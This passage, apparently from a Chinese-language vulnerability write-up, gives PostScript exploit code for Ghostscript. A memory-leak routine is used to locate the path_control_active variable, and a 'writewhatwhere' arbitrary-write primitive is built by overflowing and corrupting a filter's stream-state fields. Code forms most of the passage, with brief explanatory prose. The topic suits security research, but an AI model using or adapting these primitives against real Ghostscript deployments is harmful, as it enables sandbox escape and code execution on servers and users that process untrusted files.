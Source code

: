 ```plain
    <4848484848484848> concatstrings % s->cursor->r->ptr
    leakMemoryFilter exch writestring
    leakMemoryFilter flushfile
    /leak leakBuffer 2176 8 getinterval def
    leak
    reverse
} def
```

[![](assets/1706771701-3d5c72b9f8249cd6dad6680325d09737.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202535-81185e58-bea1-1.png)

通过这次泄漏，可以计算`path_control_active`变量的地址。泄漏和`path_control_active`变量之间的偏移量随着作为参数传递给Ghostscript的各种选项而变化，但如果传递相同的参数，则保持不变。

以类似的方式，可以通过用任意地址写写入后门地址来实现任意写入：

```plain
% what where -> -
/writewhatwhere {
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr 
    exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
    <4444444444444444> concatstrings % s->cursor->w->limit
    <4545454545454545> concatstrings % s->cbuf.  
    /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
    openWriteFilter exch writestring
    openWriteFilter flushfile
    openWriteFilter exch writestring
}def
```
